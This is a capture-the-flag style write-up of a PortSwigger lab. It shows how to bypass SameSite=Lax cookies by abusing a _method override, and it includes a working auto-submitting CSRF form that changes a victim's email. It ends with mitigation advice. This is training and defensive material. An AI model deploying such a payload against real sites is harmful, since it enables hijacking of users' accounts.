


# PortSwigger Lab: SameSite Lax bypass via method override

## Lab Description
- **Platform:** PortSwigger Web Security Academy
- **Difficulty:** Practitioner
- **Objective:** Craft an HTML page that uses a CSRF attack to change the viewer's email address and upload it to the exploit server.

## Vulnerability Analysis
The application's session cookie is configured with the `SameSite=Lax` attribute. This prevents the browser from sending the cookie on cross-site `POST` requests, which mitigates traditional CSRF attacks.

However, `SameSite=Lax` still allows cookies to be sent on cross-site `GET` requests (e.g., when a user clicks a link or is redirected). The application also supports "method override" functionality, allowing a `GET` request to be treated as a `POST` request on the server side if the `_method` parameter is present. 

The attacker can exploit this by forcing the victim's browser to send a `GET` request (which includes the cookie) but adding the `_method=POST` parameter so the server processes it as a state-changing request.

## Exploitation Steps
1. Logged in to the application using the provided credentials (`wiener:peter`).
2. Navigated to the Exploit Server to craft the malicious HTML page.
3. Since `SameSite=Lax` blocks cross-site `POST` requests but allows `GET`, the form was configured to default to `GET` (by omitting the `method="POST"` attribute).
4. The form includes the `_method=POST` parameter to bypass the server-side method check:
   ```html
   <form id="csrf" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
       <input type="hidden" name="email" value="hacked@web-security-academy.net">
       <input type="hidden" name="_method" value="POST">
   </form>
   <script>
       document.getElementById('csrf').submit();
   </script>
   ```
5. Stored the exploit and delivered it to the victim. The victim's browser sent a `GET` request (attaching the session cookie), but the server processed it as a `POST` due to the `_method` parameter, changing the victim's email.

## Evidence

### Exploit Code


### Lab Solved


## Mitigation
To prevent this bypass, the application should not allow method override for `GET` requests.
1. **Restrict Method Override:** Only allow the `_method` parameter to override methods if the original request was a `POST` (e.g., `method="POST"`).
2. **CSRF Tokens:** Implement CSRF tokens on all state-changing requests, regardless of the HTTP method used. This prevents the attack even if method override is abused.